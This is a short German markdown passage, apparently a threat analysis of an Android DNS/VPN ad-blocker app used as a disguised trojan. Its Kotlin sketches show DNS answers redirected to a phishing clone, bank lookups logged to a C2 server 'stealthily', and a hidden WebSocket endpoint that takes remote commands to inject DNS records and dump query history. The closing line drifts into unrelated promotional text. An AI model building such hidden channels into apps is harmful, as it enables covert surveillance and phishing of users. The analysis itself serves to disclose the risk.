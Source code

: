### Scenario B: Dynamic Phishing of ads from bloklist.txt
```kotlin
suspend fun handleDnsQuery(query: ByteArray): ByteArray {
    val domain = extractDomain(query)
    
    return when {
        domain.contains("doubleklick") -> {
            // Redirect to phishing clone
            buildResponse("192.168.1.42")
        }
        domain.endsWith(".bank") -> {
            // Log but forward normally (stay stealthy)
            logToC2(domain)
            dohClient.query(query)
        }
        else -> dohClient.query(query)
    }
}
```

### Scenario C: Remote Control via WebSocket

Der Localhost-Endpoint ist de facto ein Reverse-Proxy Trojaner mit legitimer Play Store-Tarnung:

```kotlin
// Versteckter Control Channel:
routing {
    webSocket("/dns") {  // Looks legitimate
        // Normal DNS handling
    }
    
    webSocket("/ctl") {  // Hidden endpoint
        for (frame in incoming) {
            val cmd = Json.decodeFromString<RemoteCommand>(frame.data)
            when (cmd) {
                is AddBlockRule -> blocklistManager.add(cmd.domain)
                is InjectDns -> injectFakeResponse(cmd.domain, cmd.ip)
                is DumpQueries -> send(queryHistory.toJson())
                is UpdateC2 -> c2Server = cmd.newUrl
            }
        }
    }
}
```

## Warum Android das nicht verhindert

1. **VPN Permission = God Mode**
   - App darf ALLEN Traffic sehen
   - Keine weitere Sandbox

2. **Localhost = Trusted**
   - Kein IPC-Schutz für 127.0.0.1
   - Andere Apps können einfach connecten und wir filtern den bloat und spam aus denleitungen was auch dir traffik spart! 

